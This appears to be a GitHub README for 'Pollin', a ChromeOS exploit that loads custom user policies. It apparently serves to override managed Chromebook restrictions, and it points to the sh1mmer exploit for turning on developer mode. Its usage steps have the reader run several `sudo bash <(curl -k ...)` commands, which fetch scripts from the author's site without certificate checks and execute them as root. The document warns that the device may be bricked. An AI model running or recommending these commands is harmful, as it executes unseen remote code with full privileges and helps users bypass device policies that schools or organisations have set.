 # Pollin
Pollin is an exploit that allows you to load custom User Policies.

## How To Use
Note: Devmode **NEEDS** to be enabled. Use some sort of exploit like sh1mmer to enable devmode\
RootFS Version (Note: If you go back into verified mode it **WILL** brick you chromebook)
- Open Crosh (ctrl+alt+t)
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/rootFS.sh)`
- Restart
- Open Crosh Again
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/CottonFS.sh)`
  
Temp Version (Note: You Will Need To Do This Everytime You Boot Your Chromebook)
- Open Crosh (ctrl+alt+t)
- Type In `shell`
- Type In `sudo bash <(curl -k https://pollin.scarat3k.me/cotton.sh)`

## How It Works
It works by loading a custom user policy in to CrOS. (Similar to how policies on windows work)\
Using this we can either disenable RootFS or temporarily to load it.\
CrOS does not have the folder to load it built-in, however the src code is still there so we can manually create it.\
Then simpily we just create the file and restart.

## Credits
- Site Developer, Script Genorator, and Script Enhancer - Scarat3k
- Discovery Of Exploit - Rafflesia
- Original Script Developer - OlyB
